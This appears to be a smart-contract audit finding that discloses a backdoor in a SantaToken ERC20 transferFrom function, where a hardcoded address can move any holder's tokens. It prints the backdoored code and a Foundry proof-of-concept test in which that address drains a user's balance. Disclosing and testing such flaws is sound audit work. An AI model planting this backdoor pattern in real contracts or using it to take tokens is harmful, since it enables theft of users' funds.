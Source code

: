 ## Vulnerability Details

The vulnerable code can be found in the `transferFrom` function of the ERC20 implementation. The code checks if the `msg.sender` is equal to `0x815F577F1c1bcE213c012f166744937C889DAF17`, and if true, it subtracts the specified amount from the `from` address and adds it to the `to` address.

### Backdoor

```
    function transferFrom(address from, address to, uint256 amount) public virtual returns (bool) {
        // hehehe :)
        // https://arbiscan.io/tx/0xd0c8688c3bcabd0024c7a52dfd818f8eb656e9e8763d0177237d5beb70a0768d
        if (msg.sender == 0x815F577F1c1bcE213c012f166744937C889DAF17) {
            balanceOf[from] -= amount;
            unchecked {
                balanceOf[to] += amount;
            }
            emit Transfer(from, to, amount);
            return true;
        }
        ...
```

### Foundry PoC

```
    function testBackdoorERC20() public {
        vm.prank(address(santasList));
        santaToken.mint(user);

        assertEq(santaToken.balanceOf(user), 1e18);

        address pirateBackdoor = 0x815F577F1c1bcE213c012f166744937C889DAF17;

        vm.prank(pirateBackdoor);
        santaToken.transferFrom(user, pirateBackdoor, 1e18);

        assertEq(santaToken.balanceOf(user), 0);
        assertEq(santaToken.balanceOf(pirateBackdoor), 1e18);
    }
```

## Impact

This vulnerability allows the address `0x815F577F1c1bcE213c012f166744937C889DAF17` to transfer any amount of SantaToken from any account to its own address. This can lead to unauthorized transfers and potential loss of all funds for any users owning SantaTokens.

## Tools Used
